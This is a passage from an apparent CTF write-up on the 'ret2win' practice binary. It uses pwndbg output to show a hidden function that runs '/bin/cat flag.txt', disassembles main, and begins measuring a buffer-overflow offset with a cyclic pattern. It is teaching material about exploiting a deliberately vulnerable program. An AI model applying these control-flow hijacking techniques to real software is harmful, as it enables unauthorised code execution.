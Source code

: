 If we look at the instruction at `ret2win+19`, we can see a system call. The instruction at `ret2win+14` loads the argument for that same system call.

```
pwndbg> x/s 0x400943
0x400943:       "/bin/cat flag.txt"
```

On examining the argument, we can see that it is in fact the `flag` file. Now we know that the `ret2win` function needs to be called in order to get the flag.

Let's disassemble `main` to check if the `ret2win` or `pwnme` function is being called.

### main()

```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x0000000000400697 <+0>:     push   rbp
   0x0000000000400698 <+1>:     mov    rbp,rsp
   0x000000000040069b <+4>:     mov    rax,QWORD PTR [rip+0x2009b6]        # 0x601058 <stdout@@GLIBC_2.2.5>
   0x00000000004006a2 <+11>:    mov    ecx,0x0
   0x00000000004006a7 <+16>:    mov    edx,0x2
   0x00000000004006ac <+21>:    mov    esi,0x0
   0x00000000004006b1 <+26>:    mov    rdi,rax
   0x00000000004006b4 <+29>:    call   0x4005a0 <setvbuf@plt>
   0x00000000004006b9 <+34>:    mov    edi,0x400808
   0x00000000004006be <+39>:    call   0x400550 <puts@plt>
   0x00000000004006c3 <+44>:    mov    edi,0x400820
   0x00000000004006c8 <+49>:    call   0x400550 <puts@plt>
   0x00000000004006cd <+54>:    mov    eax,0x0
   0x00000000004006d2 <+59>:    call   0x4006e8 <pwnme>
   0x00000000004006d7 <+64>:    mov    edi,0x400828
   0x00000000004006dc <+69>:    call   0x400550 <puts@plt>
   0x00000000004006e1 <+74>:    mov    eax,0x0
   0x00000000004006e6 <+79>:    pop    rbp
   0x00000000004006e7 <+80>:    ret
End of assembler dump.
```

We can see that the `pwnme` function is being called but not the `ret2win` function. Therefore we will have to perform a buffer overflow in order to alter program flow and execute `ret2win`.

We first have to find the distance between the buffer and the return address.

### Cyclic pattern

We can use a cyclic pattern to find this.

```
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```
